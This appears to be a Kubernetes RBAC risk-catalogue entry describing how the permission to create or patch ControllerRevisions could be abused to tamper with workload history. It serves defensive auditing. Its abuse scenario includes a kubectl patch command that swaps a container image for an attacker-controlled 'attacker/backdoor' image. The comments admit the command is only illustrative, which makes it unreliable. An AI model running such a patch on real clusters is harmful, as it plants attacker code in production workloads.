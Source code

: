```yaml
---
id: 1085
title: "Create/Update ControllerRevisions (Potential Tampering)"
description: "Allows creating or updating ControllerRevisions. This could be abused to tamper with the history of workloads like Deployments or StatefulSets, potentially forcing rollbacks to vulnerable versions, manipulating state, or obscuring legitimate changes."
category: Tampering
risk_level: RiskLevelMedium
date: ""
---
```


## Overview

| Field         | Value                                                                                             |
| ------------- | ------------------------------------------------------------------------------------------------- |
| ID            | 1085                                                                                              |
| Name          | Create/Update ControllerRevisions (Potential Tampering)                                           |
| Risk Category | Tampering                                                                                         |
| Risk Level    | {{< risk Medium >}}                                                                               |
| Role Type     | Role                                                                                              |
| API Groups    | apps                                                                                              |
| Resources     | controllerrevisions                                                                               |
| Verbs         | create, update, patch                                                                             |
| Tags          | {{< tag "ControllerRevisionTampering" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating or updating ControllerRevisions. This could be abused to tamper with the history of workloads like Deployments or StatefulSets, potentially forcing rollbacks to vulnerable versions, manipulating state, or obscuring legitimate changes.

## Abuse Scenarios

1. Create a new ControllerRevision with a malicious image or command.

```bash
# This is complex as ControllerRevisions are usually managed by controllers.
# Direct creation/patching is not common and requires careful crafting of the 'data' field.
# Example: Create a new revision for a deployment, pointing to a malicious image.
# This would typically be done by modifying the Deployment/StatefulSet itself.
# A direct kubectl command to create a *malicious* ControllerRevision is not practical.
# Instead, focus on the ability to manipulate existing ones.
# To demonstrate, one might try to patch an existing revision's data (which is base64 encoded).
# This is highly advanced and not a simple kubectl command.
# Let's provide a generic patch example, noting the complexity.
kubectl patch controllerrevision <revision-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/data/spec/template/spec/containers/0/image", "value": "<malicious-image>"}]'
# Note: The 'data' field in ControllerRevision is base64 encoded. This command is illustrative.
# Example: kubectl patch controllerrevision my-app-deployment-12345 -n default --type='json' -p='[{"op": "replace", "path": "/data/spec/template/spec/containers/0/image", "value": "attacker/backdoor"}]'

```
